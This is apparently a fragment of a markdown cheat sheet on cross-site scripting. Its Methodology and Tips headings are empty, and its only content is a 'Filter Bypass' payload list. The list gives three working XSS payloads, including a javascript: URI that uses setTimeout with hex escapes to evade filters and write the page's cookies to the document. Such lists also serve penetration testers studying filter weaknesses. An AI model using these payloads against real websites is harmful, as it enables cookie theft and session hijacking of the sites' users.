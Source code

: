 
### 1.Methodology


### 2.Tips!


### 3.Payloads

#### 3.1 Filter Bypass
```
[1].map(alert)
(alert)(1)
javascript:setTimeout`\x64ocument.write\x28\x64ocument.\x63ookie\x29`
```
